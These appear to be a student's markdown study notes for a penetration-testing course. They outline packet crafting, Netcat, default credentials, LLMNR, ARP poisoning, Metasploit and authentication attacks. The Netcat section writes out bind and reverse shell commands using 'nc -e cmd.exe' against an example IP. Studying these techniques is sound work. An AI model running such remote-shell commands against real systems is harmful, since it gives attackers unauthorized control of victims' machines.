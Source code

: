 ###Packet Crafting
- involves creating custom network packets to test devices, simulate attacks, or explore vulnerabilities
- tools like scapy, hping, and Impacket are used
- smb attack
- LDAP relay attack
- scapy packet crafting

### Netcat(nc)
- command line utility for reading and writing raw data over a network connection
- Remote shell connection (bind or reverse shell)
- bind shell is a listening port on victim machine
    - set up listener  ```nc -l p 443 -e cmd.exe```
    - connect to listener bind shell ```nc 10.10.10.10 443```
 -Reverse shell set up from Attacker pc
     - ```nc -l -p 443```
     - ```nc 10.10.10.10 443 -e cmd.exe```
### Using Netcat(nc)

### Default Credentials
- preconfigured usernames and passwords
- common target for attackers
- examples are routers, printers, databases, SQL server, web applications
- tools include hydra and medusa (brute force attacks)

### LinkLocal Multicast Name Resolution (LLMNR)
- DNS or name resolution if on the same Network
- Netbios Name Service (NBNS or NBT-NS)-
- Responder

### ARP(Address Resolution Proocol) Poisining
- change MAC and IP in Arp table
- msfconsole
- 
### Metasploit
- open-source penetration framework with built in exploits
- msfvenom can generate payloads

## Section 18: Authentication Attacks 4.2 4.3 4.5
### Overview
- Types of Password Attacks
- Password Cracking tools
- Credential Attacks
  - Password Spraying
  - Password Masking Attacks
- Credential Passing Attacks
  - Multifactor Authentication
- Directory Service Attacks
- CrackMapExec
- SAML Attacks
- OpenID connect Attacks
- Hash Attacks
